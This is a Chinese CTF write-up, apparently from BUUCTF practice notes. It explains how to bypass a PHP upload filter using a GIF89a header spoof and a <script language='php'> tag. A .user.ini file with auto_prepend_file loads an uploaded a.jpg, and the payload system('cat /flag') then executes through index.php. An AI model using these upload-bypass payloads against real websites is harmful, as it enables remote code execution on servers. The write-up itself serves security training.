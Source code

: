 # 经过多次尝试判断：

## 1.后台检测为文件头可以用GIF89a绕过



## 2.检测文件中是否含有<? ， 可以用<scriptlanguage="php">phpinfo();</script>绕过



## 3.服务器为nginx，nginx不能使用apache .htaccess文件方法绕过。但是nginx服务器有一个.user.ini配置文件。



## 4.在.user,ini配置文件中写入：

```javascript
GIF89a
auto_prepend_file=a.jpg
```

上传即可，造成类似文件包含的效果







# 1. .user.ini写入：

```javascript
GIF89a
auto_prepend_file=a.jpg
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/19913D06EBB94F9B86D8D7FBF08448EBclipboard.png)

# 2.上传a.jpg

a.jpg中写入：



```javascript
GIF89a
<script language='php'>system('cat /flag');</script>
```





# 3.访问index.php 

此时index.php文件中包含了a.jpg

则执行了a.jpg的内容

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/96EFB2726DE04BE197E6967D9216D047clipboard.png)



